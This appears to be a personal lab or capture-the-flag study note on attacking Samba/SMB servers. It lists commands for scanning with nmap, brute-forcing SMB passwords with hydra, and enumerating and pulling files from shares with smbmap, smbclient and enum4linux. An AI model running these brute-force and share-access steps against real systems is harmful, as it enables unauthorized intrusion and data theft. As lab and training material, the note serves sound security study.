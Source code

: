 #### Exploiting SAMBA
- SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on local network
- SMB uses port 445.However,originally ,SMB ran on top of NetBIOS using port 139.
- Samba is the Linux implemetation of SMB,and allows Windows systems to access Linux shares and devices.
#### Process
- Samba utilize username and password authentication in order to obtain access to the server or a network share.

- We can perform a brute-force attack on the SAMBA server in order to obtain legitimate credentials.
- After obtaining legitimate credentials,we can use a utility called SMBMap in order to enumerate SAMBA share drives,list the content of the shares as well as downlaod files and execute remote commands on the target.

- We can also utilize a tool called smbclient.smbclient  is a client that is part of the SAMBA software suite.It communicates with LAN manager server.offering an interface similar to that of the ftp program.It can be used to downlaod files from the server to the local machine,upload files from the local machine to the server as well as retrive directory information from the server.

#### Exploit
- nmap -sV 192.56.47.3 [ this shows all services ]
- hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.56.47.3 smb [ brute force for passwords ]
- smbmap [ this command shows help menu ]
- smbmap -H 192.56.47.3 -u admin -p password1 [ this will show all the shares name with permissions ]
- smbclient [ this command shows help menu ]
- man smbclient [ user manual ]
- smbclient -L 192.56.47.3 -U admin [ this will show sharename ]
- smbclient //192.56.47.3/shawn -U admin [ for accessing  shawn shares using admin account using ]
- ? [ this will show all the options can be used in smbclient ]
- dir [ list all the directory ]
- get flag.txt [ this will downlaod file ]
- enum4linux [ show help menu ]
- enum4linux -a 192.56.47.3 [ this will enumerate all the information ]
- enum4linux -a -u admin -p password1 192.56.47.2 [ this enumerate all the information ]
-
#### Tools 
- metasploit
- smbmap
- smbclient
- enum4linux
